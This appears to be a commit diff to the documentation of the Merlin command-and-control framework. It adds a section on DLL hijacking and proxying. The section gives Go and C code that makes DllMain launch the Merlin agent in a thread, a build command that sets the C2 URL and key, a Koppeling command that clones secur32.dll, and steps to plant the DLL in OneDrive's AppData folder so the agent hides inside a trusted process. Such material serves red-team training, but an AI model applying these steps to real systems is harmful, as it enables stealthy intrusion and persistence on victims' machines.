

Before and after one commit to Ne0nd0g/merlin, a Sphinx documentation site: the page built from docs/agent/dll.rst, in a window 1280 px wide and 1400 px high, scrolled down 1585 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update dll.rst

```diff
--- a/docs/agent/dll.rst
+++ b/docs/agent/dll.rst
@@ -61,3 +61,70 @@
 ``rundll32 merlin.dll,Run https://yourdomian.com:443/``
 
 **NOTE:** Passing a custom URL only works when using cmd.exe and fails when using powershell.exe
+
+DLL Hijacking/Proxying with the Merlin DLL Agent
+------------------------------------------------
+
+With a little bit of setup, the Merlin DLL agent can be used for DLL Hijacking / Side-loading / Proxying. This is a great technique to get the Merlin agent running in the codespace of a trusted process.
+
+The specifics on choosing an executable for DLL proxying are outside the scope of this documentation. Assume that a candidate executable has been identified.
+
+In the ``merlin-agent-dll`` repo, add a new exported function with an arbitrary name to ``main.go``. Have this function execute the ``run`` function with the ``url`` argument:
+
+.. code-block:: go
+
+    // EXPORTED FUNCTIONS
+
+    // MagicMan is a test function
+    //
+    //export MagicMan
+    func MagicMan() {
+        run(url)
+    }
+
+Note that the name of the exported function must match in the comment block and the code itself or Go will complain during compilation.
+
+Now, in the ``merlin.c`` source code, add a new function that executes the exported function from ``main.go``:
+
+.. code-block:: c
+
+    DWORD WINAPI RunMagicMan(LPVOID LpParam){
+        //MessageBoxA( NULL, "Hello from MagicMan() in Merlin", "DLL Load", MB_OK );
+        MagicMan();
+        return TRUE;
+    }
+
+Next, edit the structure of ``DllMain`` entry point. We want to create a thread that will execute the Merlin agent function when the DLL is side-loaded into the process:
+
+.. code-block:: c
+
+    BOOL WINAPI DllMain(
+        HINSTANCE hinstDLL,  // handle to DLL module
+        DWORD fdwReason,     // reason for calling function
+        LPVOID lpReserved )  // reserved
+    {
+        // Perform actions based on the reason for calling.
+        switch( fdwReason )
+        {
+            case DLL_PROCESS_ATTACH:
+                //MessageBoxA( NULL, "Hello from DllMain-PROCESS_ATTACH in Merlin!", "DLL Load", MB_OK );
+                CreateThread(NULL, 0, RunMagicMan, NULL, 0, 0);
+                break;
+
+Now, when the Merlin DLL Agent is loaded by a trusted process, the DLL entry point will run the CreateThread function and execute the agent.
+
+Build the DLL agent with the merlin-agent-dll makefile and supply your desired URL, PSK, and protocol parameters:
+
+``husky@dev-kde:~/merlin-agent-dll$ make URL=http://10.10.1.237:8443 PSK=merlin PROTO=http``
+
+Let's assume that we're targeting the OneDrive.exe program for our DLL Proxy. We know that OneDrive.exe loads ``secur32.dll`` from the present working directory during execution.
+
+We can now use a tool like Koppelling to create a proxied DLL:
+
+``PS C:\Users\Matt\Desktop\Koppeling> .\NetClone.exe --target 'C:\Users\Matt\Desktop\merlin.dll' --reference 'C:\Windows\system32\secur32.dll' --output 'C:\Users\Matt\Desktop\secur32.dll'``
+
+Then, we endeavor to drop our proxied DLL into the OneDrive application directory. Luckily for us, this is in %APPDATA% and we can write to the directory:
+
+``C:\Users\Matt\AppData\Local\Microsoft\OneDrive``
+
+When the application starts, our proxied DLL is pulled into the process and a thread is executed. Our session is established and our agent lives inside the OneDrive.exe process:
```
